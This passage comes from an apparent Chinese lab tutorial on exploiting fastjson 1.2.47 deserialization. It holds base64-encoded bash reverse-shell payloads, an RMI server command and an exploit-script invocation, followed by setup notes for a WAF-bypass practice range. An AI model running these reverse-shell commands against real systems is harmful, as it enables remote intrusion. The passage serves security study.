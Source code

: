 base64编码

```php
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xNjAvODg4OCAwPiYx
```

运行rmi服务

```php
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.200.159 9999 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMzQuMjM1LjIwNi84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-3ae2fcb8688c44071c6ff3ced44bbc3d1d5ba087.png)  
发送反序列化代码漏洞执行命令

```php
python.exe fastjson-1.2.47_rce.py http://192.168.200.166:8090 rmi://192.168.200.159:9999/Object
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-7cdeb893402e33a27170ecac95d5da905cb2326a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-5575cd0c4ee6f8265ab3f9d508e47760c54f5ae9.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9e719562e84e62a8331d9e05a2b069909d18cb04.png)

0x05 修复方式
---------

更新到最新版本

常见绕WAF手法
========

安全狗安装:
------

<https://www.dianthink.com/detail/550.html>

```php
安装windows server
安装phpstudy
配置phpstudy+dvwa
安装安全狗windows版
如果提示找不到Apache服务，cmd进入到Apache路径中，httpd.exe -k install -n apache2
校验防护是否存在
关闭黑名单功能(IP黑白名单)。
关闭CC攻击防护（资源防护）
```

pikachu安装:
----------

<https://github.com/zhuifengshaonianhanlu/pikachu>

```php
pikachu 靶场搭建
[root ~]# unzip pikachu-master.zip -d /var/www/html/

[root ~]# vim /var/www/html/pikachu-master/inc/config.inc.php
改：
11 define('DBPW', '');
为：
11 define('DBPW', '123456');
```
